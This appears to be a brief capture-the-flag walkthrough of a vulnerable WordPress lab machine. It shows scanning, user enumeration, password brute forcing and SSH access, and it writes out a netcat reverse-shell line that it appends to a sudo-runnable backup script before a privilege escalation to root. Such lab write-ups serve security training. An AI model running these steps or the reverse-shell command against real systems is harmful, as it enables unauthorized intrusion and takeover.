### **Netdiscover**



We use the tools called netdiscover scan hosts, we found the 192.168.0.141 is our target virtualbox host ip.

------

### **Namp**



We found some services  <u>HTTP</u>, <u>SSH</u>

------

### Solution



This a website powered by wordpress, so we use wpscan to do it.



Found these users: admin, mark, graham, sarah , jens.but no clues, so we only use password dictionary to brute force it

We found mark' password ==> helpdesk01, so we login in admin page.



search a while, but nothing adout templates found, so we decided to search activity monitor with google.





So we insead ip in pictures with our ip, open html in broswer



Let's look /home directory file and folder.



Wo found backups.sh and stuff folder may be a clue.

According to the things-to-do.txt, we found graham's password



So We ssh with user graham.



look with graham wether has a sudo privilege.



So we append a command to this backups.sh.

 `echo 'nc -e /bin/sh 192.168.0.104 9999'`

`sudo -u jens ./backups.sh`

ook with jens wether has a sudo privilege.



So let's use nmap script to escalate root privilege.





Successfully!!!!

------

**That' all , Thanks for your watching**